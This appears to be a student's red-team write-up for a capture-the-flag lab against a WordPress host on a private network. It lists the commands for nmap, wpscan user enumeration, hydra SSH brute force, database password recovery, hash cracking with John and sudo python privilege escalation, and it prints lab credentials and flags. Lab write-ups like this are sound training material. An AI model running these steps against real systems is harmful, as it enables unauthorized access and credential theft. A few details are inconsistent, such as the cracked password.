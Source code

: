 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
  
```
![./images/nmap_scan.png]

This scan identifies the services below as potential points of entry:
- Target 1
  - List of
  - Exposed Services
  22/tcp open ssh
  80/tcp open http
  111/tcp open rpcbind
  139/tcp netbios-ssn
  445/tcp netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities
  1. Wordpress User Enumeration
  2. Weak User Password
  3. Directory Exploration (mysql database password discovered)
  4. Unsalted User Password Hash (JohnTheRipper)

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` hash value_
  **Flag1: b9bbcb33ellb80be759c4e844862482d**
  ![./images/flag1.png]
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      WPSCAN Enumeration / HydraBruteForce
      - _TODO: Include the command run_
        - `$ wpscan --url http://192.168.1.110 --enumerate u`
          -`hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh`
          ![./images/hydra_michael.png]
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www/html`
        - `ls -l`
        - `nano service.html`

  - `flag2.txt`: _TODO: Insert `flag2.txt` hash value_
  **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
  ![./images/flag2.png]
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      Directory Exploration
      - _TODO: Include the command run_
      - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www`
        - `ls`
        - `cat flag2.txt`
  

  - `flag3.txt`: _TODO: Insert `flag3.txt` hash value_  
  **Flag3: afc01ab56b50591e7dccf93122770cd2**
  ![./images/flag3.png]
      - _TODO: Identify the exploit used_
      Directory Exploration -> Database Access -> Database Exploration
      - _TODO: Include the command run_
            - found the wp-config.php file containing the database password
            - `mysql --host=localhost --user=root --password=R@v3nSecurity` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

  - `flag4.txt`: _TODO: Insert `flag4.txt` hash value_
  **Flag4: 715dea6c055b9fe3337544932f2941ce**
  ![./images/flag4.png]
      - _TODO: Identify the exploit used_
      JohnTheRipper / sudo privilege abuse
      - _TODO: Include the command run_
        - `select * from wp_users INTO OUTFILE '/home/michael/wp_hashes.txt';`
        - `exit`
          - `cp wp_hashes.txt wp_hashes_cp.txt` to change file ownership from root to michael
          - `chmod 666 wp_hashes_cp.txt`
          - exit ssh to kali machine
          - `scp -P 22 michael@192.168.1.110:/home/michael/wp_hashes_cp.txt /root`
          - `john wp_hashes_cp.txt`
          - cracked - username: steven -> password: pink4 
        - `ssh steven@192.168.1.110`
        - `pw:pink84`
        - `sudo -l`
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
        - now have root access
        - `cd /root`
        - `ls`
        - `cat flag4.txt`